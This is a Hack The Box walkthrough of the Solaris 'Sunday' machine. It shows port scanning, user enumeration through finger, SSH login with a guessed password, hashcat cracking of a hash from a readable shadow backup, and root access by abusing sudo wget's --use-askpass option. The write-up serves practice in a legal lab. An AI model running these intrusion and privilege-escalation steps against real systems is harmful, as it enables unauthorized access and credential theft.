

# Sunday

This is the write-up of Sunday machine from Hack The Box.

We started running a full port scan on the host.

```bash
╭─[us-vip-21]-[10.10.14.10]-[th3g3ntl3m4n@p24nb8286]-[~/htb/oscp/sunday]                                                                                     
╰─ $ sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.10.10.76                                                                                      
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.                                                               
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-22 11:58 -04                                                                                              
Initiating Parallel DNS resolution of 1 host. at 11:58                                                                                                       
Completed Parallel DNS resolution of 1 host. at 11:58, 0.19s elapsed                                                                                         
Initiating SYN Stealth Scan at 11:58                                                                                                                         
Scanning 10.10.10.76 [65535 ports]
...
PORT      STATE SERVICE
79/tcp    open  finger
111/tcp   open  rpcbind
515/tcp   open  printer
6787/tcp  open  smc-admin
22022/tcp open  unknown
```

Now we executed a port scan only on open ports on the host

```bash
╭─[us-vip-21]-[10.10.14.10]-[th3g3ntl3m4n@p24nb8286]-[~/htb/oscp/sunday]                                                                                     
╰─ $ sudo nmap -vv -sV -sC -Pn -p 79,111,515,6787,22022 -oA nmap/sunday 10.10.10.76                                                                          
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.                                                               
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-22 13:31 -04                                                                                              
NSE: Loaded 155 scripts for scanning.
...
PORT      STATE SERVICE  REASON         VERSION
79/tcp    open  finger?  syn-ack ttl 59 
| fingerprint-strings: 
|   GenericLines: 
|     No one logged on
|   GetRequest: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions: 
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help: 
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest: 
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie: 
|_    Login Name TTY Idle When Where
|_finger: No one logged on\x0D
111/tcp   open  rpcbind  syn-ack ttl 63 2-4 (RPC #100000)
515/tcp   open  printer  syn-ack ttl 59 
6787/tcp  open  ssl/http syn-ack ttl 59 Apache httpd 2.4.33 ((Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14)
| ssl-cert: Subject: commonName=sunday
| Subject Alternative Name: DNS:sunday
| Issuer: commonName=Sunday/organizationName=Host Root CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-12-08T19:40:00
| Not valid after:  2031-12-06T19:40:00 
| MD5:   6bd34b32c05ae5fea8c861f04361414a
| SHA-1: a5ebc880968c84aa10b2a944bad256caaed5b66a
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.33 (Unix) OpenSSL/1.0.2o mod_wsgi/4.5.1 Python/2.7.14
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-title: Solaris Dashboard
|_Requested resource was https://10.10.10.76:6787/solaris/
22022/tcp open  ssh      syn-ack ttl 63 OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|   2048 aa0094321860a4933b87a4b6f802680e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDsG4q9TS6eAOrX6zI+R0CMMkCTfS36QDqQW5NcF/v9vmNWyL6xSZ8x38AB2T+Kbx672RqYCtKmHcZMFs55Q3hoWQE7YgWOJhXw9agE3aIjXiWCNhmmq4T
5+zjbJWbF4OLkHzNzZ2qGHbhQD9Kbw9AmyW8ZS+P8AGC5fO36AVvgyS8+5YbA05N3UDKBbQu/WlpgyLfuNpAq9279mfq/MUWWRNKGKICF/jRB3lr2BMD+BhDjTooM7ySxpq7K9dfOgdmgqFrjdE4bkxBrPsWL
F41YQy3hV0L/MJQE2h+s7kONmmZJMl4lAZ8PNUqQe6sdkDhL1Ex2+yQlvbyqQZw3xhuJ
|   256 da2a6cfa6bb1ea161da654a10b2bee48 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAII/0DH8qZiCfAzZNkSaAmT39TyBUFFwjdk8vm7ze+Wwm

```

Acessing the webpage running on port 6787, we got the index of WebUI Login from Solaris operating system.



## Enumeration

Checking the port 79 (finger) we have executed a netcat connection and we got nothing. When we tried the command `echo "root" | nc -vn 10.10.10.76 79` we could check that user root exist on the server.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/oscp/sunday]
└─$ echo "root" | nc -vn 10.10.10.76 79     
(UNKNOWN) [10.10.10.76] 79 (finger) open
Login       Name               TTY         Idle    When    Where
root     Super-User            console      <Oct 14 10:28>
```

Using the command `finger` we could check we were able to enumerate the users on the host.

```bash
┌──(th3g3ntl3m4n㉿kali)-[~/htb/oscp/sunday]
└─$ finger user@10.10.10.76         
Login       Name               TTY         Idle    When    Where
aiuser   AI User                            < .  .  .  . >
openldap OpenLDAP User                      < .  .  .  . >
nobody   NFS Anonymous Access               < .  .  .  . >
noaccess No Access User                     < .  .  .  . >
nobody4  SunOS 4.x NFS Anonym               < .  .  .  . >
```

Using our own bash script we enumerate some users through an user’s wordlist from [Seclists](https://github.com/danielmiessler/SecLists) and we were able to found a valid user called `sammy` and there is a `TTY` shell via SSH.


We executed a brute-force password attack against username sunny on SSH service. Trying to “guessing” the sunny’s password, we tried the name of the box and we were able to access SSH.

```bash
╭─[us-vip-21]-[10.10.14.10]-[th3g3ntl3m4n@pentester]-[~/htb/oscp/sunday]
╰─ $ ssh -p 22022 sunny@10.10.10.76
(sunny@10.10.10.76) Password: 
Last login: Wed Apr 13 15:35:50 2022 from 10.10.14.13
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
sunny@sunday:~$ id
uid=101(sunny) gid=10(staff)
```

## Lateral Movement

Checking the `.bash_history` file on sunny’s home folder we got.

```bash
sunny@sunday:~$ cat .bash_history
su -
su -
cat /etc/resolv.conf 
su -
ps auxwww|grep overwrite
su -
sudo -l
sudo /root/troll
ls /backup
ls -l /backup
cat /backup/shadow.backup
sudo /root/troll
sudo /root/troll
su -
sudo -l
sudo /root/troll
ps auxwww
ps auxwww
ps auxwww
top
top
top
ps auxwww|grep overwrite
su -
su -
cat /etc/resolv.conf 
ps auxwww|grep over
sudo -l
sudo /root/troll
sudo /root/troll
sudo /root/troll
sudo /root/troll
```

Checking the /backup directory on the root system. We checked the files in the directory and both are `ascii text` files.

```bash
sunny@sunday:~$ cd /backup
sunny@sunday:/backup$ ls -la
total 28
drwxr-xr-x   2 root     root           4 Dec 19  2021 .
drwxr-xr-x  25 root     sys           28 Feb  8 21:07 ..
-rw-r--r--   1 root     root         319 Dec 19  2021 agent22.backup
-rw-r--r--   1 root     root         319 Dec 19  2021 shadow.backup
sunny@sunday:/backup$ file shadow.backup
shadow.backup:  ascii text
sunny@sunday:/backup$ file agent22.backup 
agent22.backup: ascii text
```

Reading the `shadow.backup` file we got the password hashes for some users on the system.

```bash
sunny@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

Checking the type of sammy’s hash we got

```bash
╭─[us-vip-21]-[10.10.14.10]-[th3g3ntl3m4n@pentester]-[~/htb/oscp/images/exploitation]
╰─ $ name-that-hash -t '$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB'         

  _   _                           _____ _           _          _   _           _     
 | \ | |                         |_   _| |         | |        | | | |         | |    
 |  \| | __ _ _ __ ___   ___ ______| | | |__   __ _| |_ ______| |_| | __ _ ___| |__  
 | . ` |/ _` | '_ ` _ \ / _ \______| | | '_ \ / _` | __|______|  _  |/ _` / __| '_ \ 
 | |\  | (_| | | | | | |  __/      | | | | | | (_| | |_       | | | | (_| \__ \ | | |
 \_| \_/\__,_|_| |_| |_|\___|      \_/ |_| |_|\__,_|\__|      \_| |_/\__,_|___/_| |_|

https://twitter.com/bee_sec_san
https://github.com/HashPals/Name-That-Hash 
    

$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB

Most Likely 
SHA-256 Crypt, HC: 7400 JtR: sha256crypt
```

We were able to crack the sammy’s hash using `hashcat`.

```bash
╭─[us-vip-21]-[10.10.14.10]-[th3g3ntl3m4n@pentester]-[~/htb/oscp/images/exploitation]
╰─ $ hashcat -m 7400 sammy.hash /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
...
...
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7400 (sha256crypt $5$, SHA256 (Unix))
Hash.Target......: $5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB
Time.Started.....: Wed Feb  8 17:52:18 2023 (3 mins, 30 secs)
Time.Estimated...: Wed Feb  8 17:55:48 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      977 H/s (13.05ms) @ Accel:32 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 203584/14344385 (1.42%)
Rejected.........: 0/203584 (0.00%)
Restore.Point....: 203520/14344385 (1.42%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4096-5000
Candidate.Engine.: Device Generator
Candidates.#1....: coolster -> commie
Hardware.Mon.#1..: Util: 95%

Started: Wed Feb  8 17:51:09 2023
Stopped: Wed Feb  8 17:55:50 2023
```

We have now two credentials discovered.

| **USER** | **PASSWORD** |
| --- | --- |
| sunny | sunday |
| sammy | cooldude! |

We login into the system using sammy’s credentials

```bash
╭─[us-vip-21]-[10.10.14.10]-[th3g3ntl3m4n@pentester]-[~/htb/oscp/images/exploitation]
╰─ $ ssh -p 22022 sammy@10.10.10.76
(sammy@10.10.10.76) Password: 
Last login: Wed Apr 13 15:38:02 2022 from 10.10.14.13
Oracle Corporation      SunOS 5.11      11.4    Aug 2018
-bash-4.4$ id
uid=100(sammy) gid=10(staff)
```

## Privilege Escalation

Checking sudo permissions, we got.

```bash
-bash-4.4$ sudo -l
User sammy may run the following commands on sunday:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```

Executing the following commands we were able to escalate our privilege for user root.

```bash
-bash-4.4$ TF=$(mktemp)
-bash-4.4$ chmod +x $TF
-bash-4.4$ echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
-bash-4.4$ sudo /usr/bin/wget --use-askpass=$TF 0
root@sunday:/tmp# id
uid=0(root) gid=0(root)
```